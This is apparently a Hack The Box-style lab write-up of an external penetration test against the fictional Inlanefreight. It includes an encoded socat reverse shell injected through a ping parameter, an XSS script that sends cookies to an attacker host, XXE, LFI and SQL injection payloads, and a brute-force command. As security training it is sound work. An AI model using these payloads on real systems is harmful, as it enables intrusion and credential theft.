## Task

Our client, Inlanefreight, has contracted our company, Acme Security, Ltd., to perform a full-scope External Penetration Test to assess their perimeter security. The customer has asked us to identify as many vulnerabilities as possible; therefore, evasive testing is not required. They would like to see what sort of access can be achieved by an anonymous user on the Internet. Per the Rules of Engagement (RoE), if we can breach the DMZ and gain a foothold into the internal network, they would like us to see how far we can take that access, up to and including Active Directory domain compromise. The client has not provided web application, VPN, or Active Directory user credentials. The following domain and network ranges are in scope for testing:

|**External Testing**|**Internal Testing**|
|---|---|
|10.129.x.x ("external" facing target host)|172.16.8.0/23|
|*.inlanefreight.local (all subdomains)|172.16.9.0/23|
||INLANEFREIGHT.LOCAL (Active Directory domain)|

The customer has provided the primary domain and internal networks but has not given specifics on the exact subdomains within this scope nor the "live" hosts we will encounter within the network. They would like us to perform discovery to see what type of visibility an attacker can gain against their external network (and internal if a foothold is achieved).

Automated testing techniques such as enumeration and vulnerability scanning are permitted, but we must work carefully not to cause any service disruptions. The following are out of scope for this assessment:

- Phishing/Social Engineering against any Inlanefreight employees or customers
- Physical attacks against Inlanefreight facilities
- Destructive actions or Denial of Service (DoS) testing
- Modifications to the environment without written consent from authorized Inlanefreight IT staff

## Attack Summary

|Step|Vector|Outcome|
|---|---|---|
|1|Nmap scan of external host|11 open ports identified (FTP, SSH, SMTP, DNS, HTTP, POP3, RPC, IMAP, HTTP-proxy)|
|2|Anonymous FTP login|`flag.txt` read|
|3|DNS zone transfer (AXFR)|Full subdomain list and a flag TXT record disclosed|
|4|Vhost brute force (gobuster)|10+ internal vhosts discovered|
|5|blog.inlanefreight.local fingerprinting|Drupal 9 identified, no known CVE for the version|
|6|careers.inlanefreight.local IDOR|Flag read from another user's profile|
|7|dev.inlanefreight.local verb tampering + header spoofing + upload filter bypass|PHP webshell uploaded, flag read|
|8|gitlab.inlanefreight.local self-registration + /explore|New vhost `shopdev2.inlanefreight.local` and a flag disclosed|
|9|ir.inlanefreight.local mail-masta plugin LFI|`/etc/passwd` and flag read|
|10|monitoring.inlanefreight.local brute force + command injection + socat reverse shell|Shell as `webdev` on `dmz01`, flags read|
|11|shopdev2.inlanefreight.local default creds + XXE|Flag read via `file:///flag.txt`|
|12|status.inlanefreight.local SQL injection (sqlmap)|`users` and `company` tables dumped|
|13|support.inlanefreight.local stored XSS|Admin session cookie stolen, flag read from ticket queue|
|14|tracking.inlanefreight.local DOM XSS via `file://` XHR|`/etc/passwd` and flag read|
|15|vpn.inlanefreight.local login|Not bypassed, no access gained|

---

## Nmap Scan

```bash
nmap -sC -sV 10.129.34.144 --open
```

```
PORT     STATE SERVICE  VERSION
21/tcp   open  ftp      vsftpd 3.0.3
22/tcp   open  ssh      OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
25/tcp   open  smtp     Postfix smtpd
53/tcp   open  domain   (unknown banner: 1337_HTB_DNS)
80/tcp   open  http     Apache httpd 2.4.41 ((Ubuntu))
110/tcp  open  pop3     Dovecot pop3d
111/tcp  open  rpcbind  2-4 (RPC #100000)
143/tcp  open  imap     Dovecot imapd (Ubuntu)
993/tcp  open  ssl/imap Dovecot imapd (Ubuntu)
995/tcp  open  ssl/pop3 Dovecot pop3d
8080/tcp open  http     Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Support Center
```

```bash
nmap -p- 10.129.34.144 --open -T5
```

```
PORT     STATE SERVICE
21/tcp   open  ftp
22/tcp   open  ssh
25/tcp   open  smtp
53/tcp   open  domain
80/tcp   open  http
110/tcp  open  pop3
111/tcp  open  rpcbind
143/tcp  open  imap
993/tcp  open  imaps
995/tcp  open  pop3s
8080/tcp open  http-proxy
```

The full-range scan confirms no additional ports beyond the top-1000 scan.

---

## FTP Enumeration

```bash
ftp -a 10.129.39.98
```

```
220 (vsFTPd 3.0.3)
331 Please specify the password.
230 Login successful.
ftp> ls
-rw-r--r--    1 0        0              38 May 30  2022 flag.txt
ftp> more flag.txt
HTB{0eb0ab788df18c3115ac43b1c06ae6c4}
```

Anonymous FTP login is allowed, exposing a flag file directly in the root directory.

---

## DNS Zone Transfer

```bash
dig axfr inlanefreight.local @inlanefreight.local
```

```
inlanefreight.local.    86400   IN      SOA     ns1.inlanfreight.local. dnsadmin.inlanefreight.local. 21 604800 86400 2419200 86400
inlanefreight.local.    86400   IN      NS      inlanefreight.local.
inlanefreight.local.    86400   IN      A       127.0.0.1
blog.inlanefreight.local. 86400 IN      A       127.0.0.1
careers.inlanefreight.local. 86400 IN   A       127.0.0.1
dev.inlanefreight.local. 86400  IN      A       127.0.0.1
flag.inlanefreight.local. 86400 IN      TXT     "HTB{DNs_ZOn3_Tr@nsf3r}"
gitlab.inlanefreight.local. 86400 IN    A       127.0.0.1
ir.inlanefreight.local. 86400   IN      A       127.0.0.1
status.inlanefreight.local. 86400 IN    A       127.0.0.1
support.inlanefreight.local. 86400 IN   A       127.0.0.1
tracking.inlanefreight.local. 86400 IN  A       127.0.0.1
vpn.inlanefreight.local. 86400  IN      A       127.0.0.1
```

The name server allows an unauthenticated zone transfer, disclosing every subdomain in use plus a flag stored directly in a TXT record.

---

## Vhost Enumeration

```bash
gobuster vhost -u http://inlanefreight.local -w /home/kali/SecLists/Discovery/DNS/subdomains-top1million-20000.txt --append-domain
```

```
dev.inlanefreight.local Status: 200 [Size: 2048]
vpn.inlanefreight.local Status: 200 [Size: 1578]
support.inlanefreight.local Status: 200 [Size: 26635]
blog.inlanefreight.local Status: 200 [Size: 8708]
status.inlanefreight.local Status: 200 [Size: 878]
monitoring.inlanefreight.local Status: 200 [Size: 56]
careers.inlanefreight.local Status: 200 [Size: 51806]
tracking.inlanefreight.local Status: 200 [Size: 35211]
ir.inlanefreight.local Status: 200 [Size: 28548]
gitlab.inlanefreight.local Status: 302 [Size: 113] [--> http://gitlab.inlanefreight.local/users/sign_in]
www.monitoring.inlanefreight.local Status: 200 [Size: 56]
```

All discovered vhosts are added to `/etc/hosts` for further enumeration.

---

## blog.inlanefreight.local


The host runs a Drupal instance.

```bash
curl -s http://blog.inlanefreight.local/ | grep Drupal
```

```
<meta name="Generator" content="Drupal 9 (https://www.drupal.org)" />
```

Fingerprinting confirms Drupal 9, which has no known CVE for this version. No further exploitation is performed on this vhost.

---

## careers.inlanefreight.local


A new user account can be registered:


The newly created account's profile page discloses "Jobs applied by user", and the URL `profile?id=9` suggests an IDOR:


Changing the `id` parameter from `9` to `4` discloses another user's data, including the flag:


**Flag**:

```
HTB{8f40ecf17f681612246fa5728c159e46}
```

---

## dev.inlanefreight.local

A login form is presented:


Directory fuzzing discloses `upload.php`:

```bash
gobuster dir -u http://dev.inlanefreight.local -w /home/kali/SecLists/Discovery/Web-Content/DirBuster-2007_directory-list-2.3-small.txt -x .php
```

```
index.php            (Status: 200) [Size: 2048]
images               (Status: 301) [Size: 335]
uploads               (Status: 301) [Size: 336]
upload.php           (Status: 200) [Size: 14]
css                   (Status: 301) [Size: 332]
js                    (Status: 301) [Size: 331]
```

A GET request to `/upload.php` returns a 403 Forbidden:


HTTP verb tampering (changing the method to `TRACK`) reflects a header `X-Custom-IP-Authorization: 172.18.0.1` in the response:


Sending a new request with that header set to `127.0.0.1` tricks the web server into treating the request as coming from an internal host, bypassing the authorization check:


The upload form becomes accessible:


Uploads are restricted to images; setting the `Content-Type` of the multipart field to `image/png` bypasses the filter, allowing a PHP webshell to be uploaded:


Browsing the web root through the webshell discloses the flag file:


Reading the flag:


**Flag:**

```
HTB{57c7f6d939eeda90aa1488b15617b9fa}
```

---

## gitlab.inlanefreight.local

An account is registered:


Navigating to `/explore`:



The flag and a new vhost, `shopdev2.inlanefreight.local`, are discovered.

**Flag:**

```
HTB{32596e8376077c3ef8d5cf52f15279ba}
```

---

## ir.inlanefreight.local

The page displayed is powered by WordPress:


```bash
curl -s http://ir.inlanefreight.local | grep WordPress
```

```
<meta name="generator" content="WordPress 6.0" />
```

Enumeration with WPScan reveals users and the vulnerable `mail-masta` plugin, which is affected by a Local File Inclusion vulnerability:

```bash
wpscan --url http://ir.inlanefreight.local --enumerate p,t,u
```

```
[+] mail-masta
 | Version: 1.0

Users identified: ilfreightwp, john, tom, james
```

The LFI is exploited to read `/etc/passwd`:

```bash
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/etc/passwd"
```

```
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin

```

The same parameter is used to read the flag:

```bash
curl "http://ir.inlanefreight.local/wp-content/plugins/mail-masta/inc/campaign/count_of_send.php?pl=/var/www/html/flag.txt"
```

**Flag:**

```
HTB{e7134abea7438e937b87608eab0d979c}
```

---

## monitoring.inlanefreight.local

A login form is presented:



Brute forcing with Hydra reveals valid credentials:

```bash
hydra -l admin -P /usr/share/wordlists/rockyou.txt monitoring.inlanefreight.local http-post-form "/login.php:username=^USER^&password=^PASS^:F=Invalid"
```

```
[80][http-post-form] host: monitoring.inlanefreight.local   login: admin   password: 12qwaszx
```

After login, a very limited shell interface is accessible:


Enumerating the source code of the page:



`main.js` discloses an endpoint that runs a `ping` command server-side, and a function that calls it with a user-controllable IP, suggesting a possible command injection:



Testing the endpoint confirms the ping functionality works as expected:


Command injection is confirmed using `%0a` (URL-encoded newline), which is not blacklisted:

```
/ping.php?ip=127.0.0.1%0acat${IFS}${PATH:0:1}etc${PATH:0:1}passwd
```


Reading the source of `ping.php` itself, via the same injection:

```
GET /ping.php?ip=127.0.0.1%0acat${IFS}ping.php
```


```php
<?php
function filter($str)
{
  $operators = ['&', '|', ';', '\\', '/', ' '];
  foreach ($operators as $operator) {
    if (strpos($str, $operator)) {
      return true;
    }
  }
  $words = ['whoami', 'echo', 'rm', 'mv', 'cp', 'id', 'curl', 'wget', 'cd', 'sudo', 'mkdir', 'man', 'history', 'ln', 'grep', 'pwd', 'file', 'find', 'kill', 'ps', 'uname', 'hostname', 'date', 'uptime', 'lsof', 'ifconfig', 'ipconfig', 'ip', 'tail', 'netstat', 'tar', 'apt', 'ssh', 'scp', 'less', 'more', 'awk', 'head', 'sed', 'nc', 'netcat'];
  foreach ($words as $word) {
    if (strpos($str, $word) !== false) {
      return true;
    }
  }
  return false;
}

if (isset($_GET['ip'])) {
  $ip = $_GET['ip'];
  if (filter($ip)) {
    $output = "Invalid input";
  } else {
    $cmd = "bash -c 'ping -c 1 " . $ip . "'";
    $output = shell_exec($cmd);
  }
}
?>
```

The filter blacklists several operators and command names but does not block `/`-less binaries like `socat`, which is present on the host:


A socat reverse shell listener is started locally and adapted to evade the filter (operators quoted character-by-character, `${IFS}` used instead of spaces):

```bash
socat TCP:10.10.14.111:9001 EXEC:bash
```

```
GET /ping.php?ip=127.0.0.1%0aso'c'at${IFS}TCP:10.10.14.111:9001${IFS}EXEC:bash
```


A shell as `webdev` is obtained on host `dmz01`:

```bash
nc -lvnp 9001
```

```
connect to [10.10.14.111] from (UNKNOWN) [10.129.41.126] 57022
id
uid=1004(webdev) gid=1004(webdev) groups=1004(webdev),4(adm)
```

```bash
webdev@dmz01:/var/www/html/monitoring$ find / -name "flag.txt" 2>/dev/null

/home/srvadm/flag.txt

/srv/ftp/flag.txt
```

**Flags:**

```bash
webdev@dmz01:/var/www/html/monitoring$ cat /home/srvadm/flag.txt

b447c27a00e3a348881b0030177000cd

webdev@dmz01:/var/www/html/monitoring$ cat /srv/ftp/flag.txt

HTB{0eb0ab788df18c3115ac43b1c06ae6c4} # same of the ftp server
```


> [!note] This shell is kept for later local privilege escalation and pivoting into the internal networks.

---

## shopdev2.inlanefreight.local

This vhost was disclosed via the GitLab `/explore` page. A login is presented:



The page is accessible with `admin:admin`:


Selecting items and going to checkout shows the "Complete Purchase" action accepts an XML body, as seen in Burp:





An XXE payload is tested to read `/etc/passwd` and works:

```xml
<?xml version="1.0" encoding="UTF-8"?>
<!DOCTYPE root [
  <!ENTITY xxe SYSTEM "file:///etc/passwd">
]>
<root>
    <subtotal>&xxe;</subtotal>
    <userid>&xxe;</userid>
</root>
```



The same technique is used to read the flag:


**Flag:**

```
HTB{dbca4dc5d99cdb3311404ea74921553c}
```

---

## status.inlanefreight.local

Testing a single quote (`'`) in the search field triggers a SQL syntax error, indicating a SQL injection:



The request is captured in Burp and passed to sqlmap:

```bash
sqlmap -r status.txt --technique=BEU --batch --dump
```

```
Parameter: searchitem (POST)
    Type: boolean-based blind
    Type: error-based
    Type: UNION query

back-end DBMS: MySQL >= 5.6

Database: status
Table: users
+----+-----------------------------------+----------+
| id | password                          | username |
+----+-----------------------------------+----------+
| 1  | 4528342e54d6f8f8cf15bf6e3c31bf1f6 | Admin    |
| 2  | 1fbea4df249ac4f4881a5da387eb297cf | Flag     |
+----+-----------------------------------+----------+

Database: status
Table: company
[6 entries]
```

The injection confirms the back-end is MySQL and dumps the `users` and `company` tables. A `Flag` user row is present.

---

## support.inlanefreight.local


The site is a support center with two main functions: buy a product and raise a ticket. The `/ticket.php` endpoint is vulnerable to stored XSS, used to capture the admin's session cookie:


`script.js` (hosted locally):

```javascript
document.location='http://10.10.15.1/index.php?c='+document.cookie;
new Image().src='http://10.10.15.1/index.php?c='+document.cookie;
```

`index.php` (hosted locally):

```php
<?php
if (isset($_GET['c'])) {
    $list = explode(";", $_GET['c']);
    foreach ($list as $key => $value) {
        $cookie = urldecode($value);
        $file = fopen("cookies.txt", "a+");
        fputs($file, "Victim IP: {$_SERVER['REMOTE_ADDR']} | Cookie: {$cookie}\n");
        fclose($file);
    }
}
?>
```

A local server is started with both files:

```bash
sudo php -S 0.0.0.0:80
```

The following payload is submitted in the ticket's message field, as shown above:

```javascript
"><script src="http://10.10.14.111/script.js"></script>
```

The admin's cookie is captured when the ticket is viewed:

```bash
sudo php -S 0.0.0.0:80

[Mon Nov 9 14:20:31 2026] PHP 8.4.27 Development Server (http://0.0.0.0:80) started
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 Accepted
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 [200]: GET /script.js
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32818 Closing
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 Accepted
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov 9 14:25:19 2026] 10.129.41.101:32820 Closing
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 Accepted
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 [200]: GET /script.js
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32842 Closing
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 Accepted
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 [200]: GET /index.php?c=session=fcfaf93ab169bc943b92109f0a845d99
[Mon Nov 9 14:25:21 2026] 10.129.41.101:32844 Closing
```

The cookie is added via Cookie-Editor:


Logging in with the stolen session grants access to the admin dashboard and the ticket queue, where the flag is visible:



**Flag:**

```
HTB{1nS3cuR3_c00k135}
```

---

## tracking.inlanefreight.local

The page's only functionality is to track an order by its ID:


Testing a basic XSS payload :

```javascript
<script>alert(1)</script>
```

confirms the input is executed as JavaScript rather than rendered as text (the "Tracking #" field becomes empty):



A payload using a synchronous XHR request to a `file://` URI is used to read `/etc/passwd`:

```javascript
<script>
  var x = new XMLHttpRequest();
  x.open("GET", "file:///etc/passwd", false);
  x.send();
  document.write(x.responseText);
</script>
```

The browser allows the page's script to read local files via the `file://` scheme, and the content is written into the DOM (Document Object Model), where it is then displayed under the "Tracking #" field:



